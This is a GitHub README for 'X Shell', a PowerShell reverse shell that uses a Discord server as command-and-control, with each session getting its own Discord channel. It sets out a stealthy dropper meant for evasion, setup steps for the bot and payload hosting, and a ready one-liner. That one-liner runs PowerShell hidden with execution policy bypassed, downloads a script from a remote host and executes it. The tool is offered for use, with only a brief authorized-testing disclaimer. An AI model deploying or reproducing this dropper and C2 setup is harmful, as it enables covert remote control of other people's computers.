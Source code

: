 ![banner](/src/banner.png)
# X Shell: Discord-Based Reverse Shell

## Overview

X Shell is a PowerShell-based reverse shell that leverages a Discord server as its command-and-control (C2) infrastructure. It dynamically creates dedicated Discord channels for each user, enabling organized command execution and response tracking.

## 🚨 Disclaimer

**WARNING:** This tool is strictly for educational and authorized penetration testing purposes. Unauthorized use is illegal and may result in criminal prosecution. Always obtain explicit permission before testing.

## Features

- 🔒 Stealthy PowerShell dropper mechanism
- 🤖 Discord-based command and control
- 🔐 Dynamic channel creation for each session
- 🌐 Flexible script retrieval mechanism

## Architecture

### Components

1. **PowerShell Dropper**
   - Bypasses Windows execution restrictions
   - Retrieves main script from configurable source
   - Minimal footprint for evasion

2. **Script Hosting** *(Optional but Recommended)*
   - Can use Vercel, GitHub Gist, or other hosting
   - Provides secure and fast script retrieval
   - Enables easy script updates

3. **Discord C2 Server**
   - Manages communication channels
   - Executes received PowerShell commands
   - Returns command output

## Requirements

- Discord server
- Discord bot with channel management permissions
- Hosting solution for script retrieval (optional)
- PowerShell environment

## Installation Steps

### 1. Create Discord Bot
- Visit [Discord Developer Portal](https://discord.com/developers/applications)
- Create new application
- Generate bot token
- Configure permissions:
  - Manage Channels
  - Read Messages
  - Send Messages

### 2. Script Hosting *(Recommended)*
**Option A: Vercel Deployment** (Recommended)
- Fork repository
- Deploy to Vercel
- Configure authentication tokens
- Update script serving logic

**Option B: Alternative Hosting**
- Use GitHub Gist
- Private pastebin
- Personal web server
- Ensure secure, authenticated access

### 3. Prepare Deployment
- Update script with:
  - Bot token
  - Server ID
  - Category ID
  - Script retrieval URL

### 4. Execute Dropper
```powershell
powershell -W Hidden -Exec Bypass -c "$r = iwr https://your-script-host.com/ -H @{'Authorization'='Bearer your-token'}; iex $r.Content"
```

## Hosting Considerations

- Use HTTPS for script retrieval
- Implement token-based authentication
- Minimize script exposure
- Regularly rotate access tokens

## Additional Resources

- [Discord Server Template](https://discord.new/AFkzNqmAdmex)
- Preconfigured server with logging channels

## Security Considerations

- Implement strict authentication
- Rotate tokens regularly
- Monitor and log all activities
- Ensure compliance with legal standards

## Contributing

1. Fork the repository
2. Create feature branch
3. Commit changes
4. Push and submit pull request

## License



## Contact

<a href="https://discord.com/users/789782857852911616"><img src="https://static.vecteezy.com/system/resources/previews/018/930/602/non_2x/discord-logo-discord-icon-transparent-free-png.png" style="width: 40px, height: 40px"></a>
